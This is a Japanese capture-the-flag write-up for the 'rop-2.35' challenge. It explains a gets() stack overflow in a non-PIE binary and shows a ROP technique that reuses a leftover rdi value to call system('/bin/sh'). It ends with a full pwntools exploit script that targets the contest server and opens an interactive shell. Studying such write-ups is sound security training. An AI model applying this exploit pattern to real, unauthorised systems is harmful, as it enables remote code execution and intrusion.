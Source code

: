 # rop-2.35

## 概要

buffer overflow の脆弱性があります。

```c
void main() {
  char buf[0x10];
  system("echo Enter something:");
  gets(buf);
}
```

```bash
❯ checksec chall
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 観察

### No PIE

No PIE なので簡単に system を呼び出すことができます。
`system("/bin/sh")`を呼び出すことを目標とします。

### `/bin/sh` の書き込み

buf に書き込む場合、以下の問題点があります。

* 書き込んだアドレスが不明
  * `/bin/sh` を書き込み、**そのアドレスを**systemの引数に渡す必要がある
* `pop rdi; ret` のガジェットがない
  * 仮にアドレスが分かっても、systemの第一引数(rdi)を設定できない
  * `ROPgadget --binary chall | grep "pop rdi"`

### rdiの使い回し

rdiのガジェットがないので、systemを呼び出すときにたまたまセットされているrdiを使い回すことを考えます。

```text
gdb-peda$ disass main
...
   0x0000000000401184 <+46>:    ret  
...

gdb-peda$ b *main+46

gdb-peda$ run

gdb-peda$ info reg
...
rdi            0x7f93536e9a80      0x7f93536e9a80
...

gdb-peda$ info proc map
...
      0x7f93536e9000     0x7f93536f6000     0xd000        0x0  rw-p   
...
```

書き込み可能な領域でした。
systemを呼ぶ前にgetsを呼び、rdiの指すアドレスに `/bin/sh` を書き込んでおけば良さそうです。

## 解法

細かい注意点

* スタックのアライメント調整のために ret ガジェットを呼ぶ
  * <https://uchan.hateblo.jp/entry/2018/02/16/232029>
* `/bin/sh` ではなく `/bin0sh`
  * なぜか4バイト目がASCIIで1つ小さい値になってしまう（？）

```python
from pwn import *

exe = ELF("./chall")
context.binary = exe
io = remote('rop-2-35.seccon.games', '9999')

gets = 0x401060
ret = 0x40101a
call_system = 0x40116c

offset = 24
payload = b''
payload += b'A' * offset
payload += pack(ret)
payload += pack(gets)
payload += pack(call_system)

io.recvuntil(b'Enter something:')
io.sendline(payload)
# なぜか1つずれるので /bin/sh → /bin0sh
io.sendline(b'/bin0sh')
io.interactive()
```
